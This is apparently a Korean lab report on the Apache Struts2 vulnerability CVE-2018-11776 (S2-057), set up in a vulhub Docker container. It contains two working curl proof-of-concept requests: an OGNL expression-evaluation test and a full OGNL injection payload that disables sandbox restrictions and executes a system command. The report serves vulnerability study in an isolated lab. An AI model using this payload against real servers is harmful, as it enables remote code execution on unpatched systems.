



# CVE-2018-11776 Report (S2-057)

## 1. 개요
Apache Struts2의 URL 매핑 처리 취약점을 이용하여 OGNL 인젝션을 통해 원격 코드 실행(RCE)이 가능한 취약점입니다.

## 2. 환경 구축 방법

- 베이스 이미지: `vulhub/struts2:2.3.34-showcase`
- 추가 구성:
  - `struts-actionchaining.xml` 파일을 덮어쓰기하여 취약한 설정 적용
- 포트 매핑: `8080:8080`
- 사용한 파일:
  - `docker-compose.yml`
  - `Dockerfile`
  - `struts-actionchaining.xml`

## 3. 실행 방법

```bash
docker-compose up
```
브라우저 접속: 
```
http://localhost:8080/showcase/
```


## 4. 취약점 PoC
### 4.1 계산식 인젝션 테스트 
```
curl -i "http://localhost:8080/struts2-showcase/%24%7B233*233%7D/actionChain1.action"
```
결과: HTTP Location 헤더에 /54289/ 리다이렉트 → OGNL 인젝션 성공

###
4.2 원격 코드 실행 (RCE) 테스트
```
curl -i "http://localhost:8080/struts2-showcase/%24%7B(%23dm=%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct=%23request['struts.valueStack'].context).(%23cr=%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ou=%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a=%40java.lang.Runtime%40getRuntime().exec('id')).(%40org.apache.commons.io.IOUtils@toString(%23a.getInputStream()))%7D/actionChain1.action"
```

결과: 서버에서 id 명령어 결과 출력 → RCE 성공


## 5. 캡처 화면

### 5.1 브라우저에서 Showcase 접속



### 5.2 233*233 계산 결과(54289) 출력



### 5.3 id 명령어 실행 결과 출력


### 5.4 curl 요청 화면


